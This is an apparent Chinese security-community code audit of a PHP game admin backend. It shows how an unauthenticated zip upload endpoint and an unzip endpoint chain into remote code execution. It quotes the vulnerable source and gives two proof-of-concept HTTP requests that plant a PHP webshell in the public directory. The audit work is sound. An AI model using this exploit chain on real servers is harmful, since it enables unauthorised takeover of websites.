







# php代码审计篇 - 某次rce审计项目-先知社区

> **来源**: https://xz.aliyun.com/news/18228  
> **文章ID**: 18228

---

# 

## 源码信息

源码名称：阿拉德后台

地址：  
<https://www.37boke.com/220.html>

​

## 路由分析

url /admin/File/elementUpload.html

对应文件 game/application/admin/controller/File.php 下的elementUpload 方法

路由简单清晰 /目录/文件/方法

## 代码分析

全局搜索move\_uploaded\_file 找到以下 上传点

game/application/admin/controller/File.php下的elementUpload 方法

```
public function elementUpload(){  
    $data = input('');  
    $dir = (isset($data["dir"]) && !empty($data["dir"]))?trim($data["dir"]) : "ald";  
    // 获取上传的文件信息  
       $file = $_FILES['file'];  
       $extension = strtolower(pathInfo($file["name"],PATHINFO_EXTENSION));  
       $types = array("rar","zip","sql","json");   
    if(!in_array($extension,$types)){   
        exit(json_encode(['status' => 'error','msg'=>"禁止上传.{$extension}文件"]));  
    }  
       if ($_SERVER["REQUEST_METHOD"] == "POST") {  
           // 保存文件的目录路径  
           $targetDir = ROOT_PATH . "public/uploads/{$dir}";  
        if(!file_exists($targetDir)){  
           mkdir($targetDir,0777,true);  
        }  
        if(preg_match('/[\x{4e00}-\x{9fa5}]/u', $file["name"])){  
            //中文转拼音  
            $pinyin=new \PinYin();  
            $fileName = $pinyin->getPinYin_string($file['name']);  
        }else{  
               $fileName = basename($file["name"]);  
        }  
           $targetFilePath = $targetDir . DIRECTORY_SEPARATOR . $fileName;  
           //检测文件是否包含木马  
        if(checkMuma($file["tmp_name"])==1) {  
           exit(json_encode(['status' => 'error','msg'=>"您上传的文件为可疑木马，请自重！"]));  
        }  
           if (move_uploaded_file($file["tmp_name"], $targetFilePath)) {  
               $path = "/uploads/{$dir}/".$fileName;  
               echo json_encode(['status' => 'success','msg'=>"上传成功",'path'=>$path]);  
           } else {  
               echo json_encode(['status' => 'error','msg'=>"上传失败"]);  
           }  
       }  
}
```

分析上述代码可以看出 这个功能点允许上传 rar,zip,sql,json 这些格式的文件 且可以通过dir参数 指定创建一个目录 在uploads 目录下创建一个目录 上传到其中 比如说gm 目录



因为此处存在一个上传zip文件的功能 无法利用 那么我们联想一下会不会也有一个解压zip的功能呢 查看当前文件内没有发现解压功能 于是 全局 搜索看能否找到一个解压zip的功能 将包含一句话shell的文件解压到目录中 从而拿到shell

​

全局搜索 unzip发现admin/controller/Update.php 文件中存在一个unzip方法  


分析代码得知此处 接受post请求的参数zipPath 并且 使用 $zip->open($zipPath) 做压缩文件判断 能否打开zip压缩文件 并且支持 的是 绝对目录 以及相对目录 所有 zipPath参数的值就要设置为zip文件的相对路径

```
public function unzip(){  
    if(request()->isPost()){  
           $data=input('post.');  
           !isset($data['zipPath']) && $this->error('参数非法');  
           $zipPath = trim($data['zipPath']);  
           empty($zipPath) && $this->error('zipPath参数不能为空');  
           try{  
               $zip = new \ZipArchive;  
               if ($zip->open($zipPath) === true) {  
                   //将压缩包文件解压到网站根目录下  
                   //$zip->extractTo(ROOT_PATH);  
                   //处理解压中文文件名丢失/乱码问题  
                   $docnum = $zip->numFiles;  
                   for($i = 0; $i < $docnum; $i++) {  
                       $statInfo = $zip->statIndex($i,\ZipArchive::FL_ENC_RAW);  
                       $filename = $this->transcoding($statInfo['name']);  //转码  
                       if($statInfo['crc'] == 0) {  
                           $dir = ROOT_PATH.'/'.substr($filename, 0,-1);  
                           if (!file_exists($dir)){  
                               mkdir($dir,0755,true);  
                           }  
                       } else {  
                           $filepath = ROOT_PATH.'/'.$filename;  
                           //自动创建目录  
                           $dir = dirname($filepath);  
                           if (!file_exists($dir)){  
                               mkdir($dir,0755,true);  
                           }  
                           //拷贝文件  
                           copy('zip://'.$zipPath.'#'.$zip->getNameIndex($i), $filepath);  
                       }  
                   }  
                 // 关闭zip文件  
                 $zip->close();  
               }
```

初步利用思路：第一处的上传 可以将zip文件上传到uploads/gm/下 第二处可以指定解压的目录 来解压文件 经过尝试 最后解压目录需要为../public/uploads/gm/ 格式

​

尝试解压后发现会将压缩包内的文件解压到game目录下 但是由于是thinkphp 框架 在game目录下文件没有路由 无法访问shell文件 只能解压到pubilc目录下才可以



​

所以 压缩包内容需要为public/3.php 即压缩的时候需要将php文件加一层目录 使得 会解压到game/public 目录下


​

分析鉴权 发现这两个文件继承的父类Common 其中完全没有做登录之类的校验 所以这两个文件的功能可以不登录就可以调用

## 漏洞利用

poc  
第一步

```
POST /admin/File/elementUpload.html?dir=gm HTTP/1.1
Host: 37boke.test
Content-Length: 448
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWXA97hizSHe7pnn7
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie:
Connection: close

------WebKitFormBoundaryWXA97hizSHe7pnn7
Content-Disposition: form-data; name="file"; filename="3.zip"
Content-Type: application/x-zip-compressed
压缩包内容
------WebKitFormBoundaryWXA97hizSHe7pnn7--
```

压缩包





​



第二步解压

​

注意 linux 目录是 / windows也可以 / 也可以

```
POST /admin/Update/unzip.html HTTP/1.1
Host: 37boke.test
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://37boke.test/Admin/Way/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

zipPath=../public/uploads/gm/3.zip
```

成功解压到 public目录下




